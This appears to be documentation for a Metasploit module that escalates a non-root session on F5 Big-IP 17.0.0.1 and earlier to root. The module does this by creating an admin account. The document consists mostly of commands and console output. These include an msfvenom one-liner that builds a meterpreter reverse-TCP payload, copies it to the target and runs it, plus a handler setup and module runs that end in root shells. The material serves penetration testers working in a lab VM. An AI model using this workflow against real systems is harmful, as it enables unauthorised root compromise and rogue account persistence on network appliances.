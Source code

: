 ## Vulnerable Application

The vulnerable application is F5 Big-IP version 17.0.0.1 and below. It can be
downloaded as a VMWare image for free (you have to create an account) from
https://downloads.f5.com. You can register for a free 30-day trial if you like,
but it's not required to test this.

Boot the VM and set an admin password by logging in with the default credentials
(admin / admin). You'll need that password.

## Verification Steps

1. Install the application
2. Start `msfconsole`
3. Do: Get a non-root session somehow (eg: `use multi/handler` / `set PAYLOAD linux/x64/meterpreter_reverse_tcp` then `./msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.0.0.179 LPORT=4444 -f elf > testexploit.elf && scp testexploit.elf root@10.0.0.162:/tmp && ssh root@10.0.0.162 sudo -u apache /tmp/testexploit.elf`)
4. Do: `use exploit/linux/local/f5_create_user`
5. Do `set SESSION <sessionid>`
6. Do: `run`
7. You should get a session

## Options

### `USERNAME` / `PASSWORD`

The username and final password for the account. If blank, they'll be randomly
generated.

### `CREATE_SESSION`

If set (which is default), will spawn a root session. Otherwise, simply creates
the account.

## Scenarios

### F5 Big-IP 17.0.0.1 - Create a session with random creds

First, get a non-root session however you can. You can use a `multi/handler`
and `msfvenom`:

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter_reverse_tcp
PAYLOAD => linux/x64/meterpreter_reverse_tcp

msf6 exploit(multi/handler) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf6 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.162:34140) at 2022-11-14 15:59:49 -0800

[...run the payload...]

meterpreter > getuid
Server username: apache

meterpreter > bg

msf6 exploit(multi/handler) > setg SESSION 1
SESSION => 1
```

To create and run the payload, in another window:

```
$ ./msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.0.0.179 LPORT=4444 -f elf > testexploit.elf && scp testexploit.elf root@10.0.0.162:/tmp && ssh root@10.0.0.162 sudo -u apache /tmp/testexploit.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1068640 bytes
Final size of elf file: 1068640 bytes
testexploit.elf
```

Now that we have a session, we can just run the module:

```
msf6 exploit(multi/handler) > use exploit/linux/local/f5_create_user
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/local/f5_create_user) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Will attempt to create user 7yI5vLIK / woquVd36PhcG, then change password to 9d9s83bBPwu5 when creating a session
[+] Service didn't return an error, so user was likely created!
[*] Attempting create a root session...
[*] Sending stage (40168 bytes) to 10.0.0.162
[*] Meterpreter session 2 opened (10.0.0.179:4444 -> 10.0.0.162:45254) at 2022-11-14 16:02:10 -0800

meterpreter > getuid
Server username: root
```

### F5 Big-IP 17.0.0.1 - Create a session with set creds

Create a session as shown above, then:

```
msf6 exploit(linux/local/f5_create_user) > set USERNAME mymsfdemouser
USERNAME => mymsfdemouser
msf6 exploit(linux/local/f5_create_user) > set PASSWORD mybigmsfdemopassword
PASSWORD => mybigmsfdemopassword
msf6 exploit(linux/local/f5_create_user) > set VERBOSE true
VERBOSE => true
msf6 exploit(linux/local/f5_create_user) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Will attempt to create user mymsfdemouser / QVEE0pqM7pAd, then change password to mybigmsfdemopassword when creating a session
[*] Hashing the password with a pseudorandom salt
[+] Service didn't return an error, so user was likely created!
[*] Attempting create a root session...
[*] Sending stage (40164 bytes) to 10.0.0.162
[*] Output from su command: Password: You are required to change your password immediately (root enforced)
(current) BIG-IP password: New BIG-IP password: Retype new BIG-IP password: Changing password for mymsfdemouser.
[*] Meterpreter session 3 opened (10.0.0.179:4444 -> 10.0.0.162:49646) at 2022-11-14 16:03:04 -0800

meterpreter > getuid
Server username: root
```

### F5 Big-IP 17.0.0.1 - Just create an account with random creds

Get a session as shown above, then:

```
msf6 exploit(linux/local/f5_create_user) > set CREATE_SESSION false
CREATE_SESSION => false
msf6 exploit(linux/local/f5_create_user) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Will attempt to create user hKjGGrlU / yRQijFQjVjqa
[*] Hashing the password with a pseudorandom salt
[+] Service didn't return an error, so user was likely created!
^C[*] Exploit completed, but no session was created.
```

### F5 Big-IP 17.0.0.1 - Just create an account with set creds

Get a session as shown above, then:

```
msf6 exploit(linux/local/f5_create_user) > set CREATE_SESSION false
CREATE_SESSION => false
msf6 exploit(linux/local/f5_create_user) > set USERNAME mymsfdemouser2
USERNAME => mymsfdemouser2
msf6 exploit(linux/local/f5_create_user) > set PASSWORD mybigmsfdemopassword
PASSWORD => mybigmsfdemopassword
msf6 exploit(linux/local/f5_create_user) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Will attempt to create user mymsfdemouser2 / mybigmsfdemopassword
[*] Hashing the password with a pseudorandom salt
[+] Service didn't return an error, so user was likely created!
^C[*] Exploit completed, but no session was created.
```

### F5 Big-IP 17.0.0.1 - Create an account with an error

Get a session as shown above, then (we use a duplicate username):

```

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Will attempt to create user mymsfdemouser2 / mybigmsfdemopassword
[*] Hashing the password with a pseudorandom salt
[-] mcp query returned an error message: 01020066:3: The requested user (mymsfdemouser2) already exists in partition Common. (code: 16908390)
```

